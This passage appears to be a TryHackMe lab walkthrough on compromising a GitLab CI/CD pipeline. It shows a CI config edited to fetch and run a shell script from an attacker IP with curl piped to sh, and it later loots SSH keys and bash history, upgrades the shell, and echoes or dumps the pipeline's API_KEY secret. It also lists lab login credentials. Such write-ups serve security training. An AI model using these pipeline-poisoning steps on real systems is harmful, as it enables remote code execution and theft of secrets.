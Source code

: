 
6. Edit `.gitlab-ci.yaml`
```yaml
stages:
  - test
  - deploy

test:
  stage: test
  script:
    - 'curl http://10.50.44.89:9090/shell3.sh | sh'

production:
  stage: deploy
  when: manual
  script:
    - 'echo "Deploying to ${CI_ENVIRONMENT_NAME}"'
    - 'echo "${API_KEY}" > /tmp/key'
    - 'echo "Ready to use the API KEY"'
  environment:
    name: ${CI_JOB_NAME}

```

---

7. **Commit** and **Merge**!
8. Go to `.ssh` directory, access **SSH Private Keys**
9. Check History: `cat ~/.bash_history` 😉
10. for better shell, run:
    ```sh
    python3 -c 'import pty; pty.spawn("/bin/bash")';
    ```
11. Login with ssh key on both systems
    ```sh
    ssh -i ~/.ssh/id_rsa ubuntu@10.200.59.220
    ssh -i ~/.ssh/id_rsa ubuntu@10.200.59.230
    ```

---

## Build Secrets

1. login to **Gitlab**: `anatacker`:`Password1@`
2. Goto: `http://gitlab.tryhackme.loc/ash/environments/`
3. Change to `DEV` Branch
4. Edit `.gitlan-ci.yaml`
```yaml
stages:
  - test
  - deploy

test:
  stage: test
  script:
    - 'echo "${API_KEY}"'

production:
  stage: deploy
  when: manual
  script:
    - 'echo "${API_KEY}"'
  environment:
    name: ${CI_JOB_NAME}

```